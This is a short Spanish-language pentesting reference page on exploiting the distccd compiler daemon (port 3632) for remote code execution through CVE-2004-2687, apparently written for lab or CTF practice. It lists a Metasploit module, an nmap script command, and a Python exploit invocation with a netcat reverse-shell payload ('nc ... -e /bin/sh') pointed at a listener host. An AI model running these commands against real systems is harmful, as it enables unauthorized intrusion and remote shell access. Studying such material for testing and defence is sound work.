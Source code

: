 ```yaml
---
description: Compilador distribuido y como utilizarlo para ganar RCE.
---
```


# 3632 -DISTCCD

## INFORMACIÓN BÁSICA

`Distccd` es el servidor del compilador distribuido de Linux. Acepta trabajos de compilación provenientes de los equipos de la red. Puede correr sobre una conexión TCP (rápida pero insegura) o sobre SSH (lenta pero segura).

```
PORT     STATE SERVICE
3632/tcp open  distccd
```

## EXPLOIT

Podemos utilizar este servicio para ejecutar código Remoto (RCE). [**CVE-2004-2687**](https://www.incibe-cert.es/alerta-temprana/vulnerabilidades/cve-2004-2687)**.**

Se puede explotar utilizando un módulo de Metasploit, un script de nmap o incluso un script de python:

### Metasploit

```
msf5 > use exploit/unix/misc/distcc_exec
```

### nmap

```
nmap -p 3632 <ip> --script distcc-exec --script-args="distcc-exec.cmd='id'"
```

### python

Podemos encontrar el código en el siguiente enlace.

{% embed url="https://nippycodes.com/coding/cve-2004-2687-distcc-daemon-command-execution-python" %}

```
./disccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 1403 -e /bin/sh"
```
